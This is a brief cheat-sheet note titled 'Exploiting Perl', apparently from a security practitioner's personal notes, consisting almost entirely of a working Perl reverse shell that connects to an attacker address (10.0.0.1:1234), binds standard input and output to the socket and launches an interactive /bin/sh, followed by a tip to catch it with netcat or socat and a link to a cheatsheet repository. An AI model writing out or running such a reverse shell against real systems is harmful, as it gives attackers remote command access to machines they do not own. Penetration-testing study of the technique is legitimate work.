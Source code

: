 # Exploiting Perl

**author**:: Nathan Acks  
**date**:: 2022-07-11

A simple reverse shell:

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
